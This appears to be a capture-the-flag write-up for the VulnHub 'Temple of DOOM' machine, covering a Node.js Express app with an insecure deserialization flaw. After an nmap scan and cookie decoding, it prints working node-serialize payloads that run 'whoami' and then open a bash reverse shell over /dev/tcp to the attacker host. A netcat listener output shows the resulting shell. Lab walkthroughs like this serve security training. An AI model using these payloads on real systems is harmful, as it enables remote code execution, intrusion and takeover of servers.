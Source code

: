 
Temple of DOOM
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
[+] NODE.JS serialization - Remote Code Execution RCE
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


Scan Results

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
Nmap scan report for 192.168.56.103
Host is up (0.00088s latency).
Not shown: 998 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey: 
|   2048 95:68:04:c7:42:03:04:cd:00:4e:36:7e:cd:4f:66:ea (RSA)
|   256 c3:06:5f:7f:17:b6:cb:bc:79:6b:46:46:cc:11:3a:7d (ECDSA)
|_  256 63:0c:28:88:25:d5:48:19:82:bb:bd:72:c6:6c:68:50 (ED25519)
666/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (text/html; charset=utf-8).
MAC Address: 08:00:27:BB:24:1C (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~




~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# curl http://192.168.56.103:666
Under Construction, Come Back Later!
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After running the request through Burp we can see the Cookie has a value for profile
After decoding it we get  

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/TampleOfDoom/templeofdoom1.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"Admin","csrftoken":"u32t4o3tb3gg431fs34ggdgchjwnza0l=","Expires=":Friday, 13 Oct 2018 00:00:00 GMTIn0%3D
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


We change the profile value, in {"username":"Admin"}, Base 64 encode it and resubmit it to the server.

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/TampleOfDoom/templeofdoom2.png)

We take a look at some serialization with node js
Resource for RCE NODE.js serialization .
https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/

We change the value of the cookie

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('whoami',(e,out,err)=>{console.log(out);}); }()"
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~


After resubmitting the request with this payload we can see that we are running commands on the server, as user : nodeadmin

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/TampleOfDoom/templeofdoom3.png)


Trying to get a reverse shell on the server:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
{"username":"_$$ND_FUNC$$_function(){return require('child_process').execSync('bash -i >& /dev/tcp/192.168.56.102/1234 0>&1',(e,out,err)=>{console.log(out);}); }()"}
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/TampleOfDoom/templeofdoom4.png)


Sending this to repeater we get a reverse shell on the listening 1234 port open on Kali.


![Alt Tag](https://raw.githubusercontent.com/setrus/VulnHub/master/TampleOfDoom/templeofdoom5.png)


~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
root@setrus:~# nc -nvlp 1234
listening on [any] 1234 ...
connect to [192.168.56.102] from (UNKNOWN) [192.168.56.103] 44214
bash: cannot set terminal process group (814): Inappropriate ioctl for device
bash: no job control in this shell
[nodeadmin@localhost ~]$ 

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
